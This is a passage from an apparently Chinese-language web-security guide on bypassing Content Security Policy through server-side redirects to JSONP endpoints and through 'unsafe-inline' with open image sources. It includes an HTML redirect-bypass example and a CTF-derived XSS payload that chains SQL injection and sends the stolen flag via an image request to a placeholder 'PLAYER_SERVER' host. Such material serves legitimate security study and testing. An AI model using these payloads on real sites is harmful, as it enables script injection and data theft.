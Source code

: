 ### 通过重定向绕过

当 CSP 遇到服务器端重定向时会发生什么？如果重定向导致到一个不被允许的不同源，它仍然会失败。

然而，根据 [CSP 规范 4.2.2.3. 路径和重定向](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects) 中的描述，如果重定向导致到一个不同的路径，它可以绕过原始限制。

这是一个例子：
```html
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src http://localhost:5555 https://www.google.com/a/b/c/d">
</head>
<body>
<div id=userContent>
<script src="https://https://www.google.com/test"></script>
<script src="https://https://www.google.com/a/test"></script>
<script src="http://localhost:5555/301"></script>
</div>
</body>
</html>
```
如果 CSP 设置为 `https://www.google.com/a/b/c/d`，由于路径被考虑，`/test` 和 `/a/test` 脚本将被 CSP 阻止。

然而，最终的 `http://localhost:5555/301` 将在服务器端 **重定向到 `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`**。由于这是一个重定向，**路径不被考虑**，因此 **脚本可以被加载**，从而绕过路径限制。

通过这个重定向，即使路径完全指定，仍然会被绕过。

因此，最佳解决方案是确保网站没有任何开放重定向漏洞，并且 CSP 规则中没有可以被利用的域名。

### 通过悬挂标记绕过 CSP

阅读 [如何这里](../dangling-markup-html-scriptless-injection/)。

### 'unsafe-inline'; img-src \*; 通过 XSS
```
default-src 'self' 'unsafe-inline'; img-src *;
```
`'unsafe-inline'` 意味着您可以在代码中执行任何脚本（XSS 可以执行代码），而 `img-src *` 意味着您可以在网页中使用来自任何资源的任何图像。

您可以通过图像泄露数据来绕过此 CSP（在这种情况下，XSS 滥用一个 CSRF，其中一个可被机器人访问的页面包含 SQLi，并通过图像提取标志）：
```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```
From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

您还可以利用此配置来**加载插入在图像中的javascript代码**。例如，如果页面允许从Twitter加载图像。您可以**制作**一个**特殊图像**，**上传**到Twitter，并利用“**unsafe-inline**”来**执行**一段JS代码（作为常规XSS），该代码将**加载**该**图像**，**提取**其中的**JS**并**执行**它：[https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)
